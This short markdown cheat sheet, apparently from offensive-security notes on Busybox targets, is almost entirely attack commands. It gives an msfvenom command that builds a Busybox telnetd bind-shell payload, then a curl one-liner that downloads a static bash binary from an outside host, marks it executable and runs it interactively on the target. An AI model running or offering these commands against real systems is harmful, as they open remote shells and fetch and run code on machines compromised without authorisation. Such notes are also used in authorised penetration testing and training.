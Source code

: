 # Busybox

## 01 - Generate Payloads

```
$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>
```

## 02 - Download Bash

```sh
URL="https://bin.pkgforge.dev/$(uname -m)/bash"
[ "$(uname -m)" == i686 ] && URL='https://github.com/polaco1782/linux-static-binaries/raw/refs/heads/master/x86-i686/bash'
curl -obash -SsfL "${URL}" && chmod 700 bash && ./bash --version && exec ./bash -il
```